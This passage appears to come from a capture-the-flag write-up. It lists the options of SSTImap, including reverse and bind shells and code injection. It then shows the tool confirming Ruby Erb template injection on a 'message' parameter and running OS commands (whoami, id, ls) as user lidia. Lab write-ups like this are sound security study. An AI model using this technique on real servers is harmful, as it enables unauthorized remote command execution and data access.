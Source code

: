 ```bash
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```

# User lidia

I rerun the tool with the `--os-shell option`:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Run commands on the operating system.
x86_64-linux $ whoami
lidia
x86_64-linux $ id
uid=1000(lidia) gid=1000(lidia) groups=1000(lidia),100(users),1002(rvm)
x86_64-linux $ ls -la
total 108
drwxr-xr-x 16 lidia lidia 4096 May 20 15:14 .
drwxr-xr-x  3 lidia lidia 4096 May 20 13:54 ..
drwxr-xr-x 11 lidia lidia 4096 May 20 15:14 app
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 bin
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 certs
drwxr-xr-x  5 lidia lidia 4096 May 20 15:14 config
-rw-r--r--  1 lidia lidia  160 May 20 15:14 config.ru
drwxr-xr-x  3 lidia lidia 4096 May 20 15:14 db
-rw-r--r--  1 lidia lidia 1870 May 20 15:14 Dockerfile
-rw-r--r--  1 lidia lidia  703 May 20 15:14 .dockerignore
-rw-r--r--  1 lidia lidia 2235 May 20 15:14 Gemfile
-rw-r--r--  1 lidia lidia 6613 May 20 15:14 Gemfile.lock
drwxr-xr-x  7 lidia lidia 4096 Sep  4 18:02 .git
-rw-r--r--  1 lidia lidia  348 May 20 15:14 .gitattributes
-rw-r--r--  1 lidia lidia  815 May 20 15:14 .gitignore
drwxr-xr-x  4 lidia lidia 4096 May 20 15:14 lib
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 log
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 models
drwxr-xr-x  3 lidia lidia 4096 May 20 15:14 public
-rw-r--r--  1 lidia lidia  227 May 20 15:14 Rakefile
-rw-r--r--  1 lidia lidia  374 May 20 15:14 README.md
-rw-r--r--  1 lidia lidia   11 May 20 15:14 .ruby-version
drwxr-xr-x  2 lidia lidia 4096 Sep  4 19:53 storage
```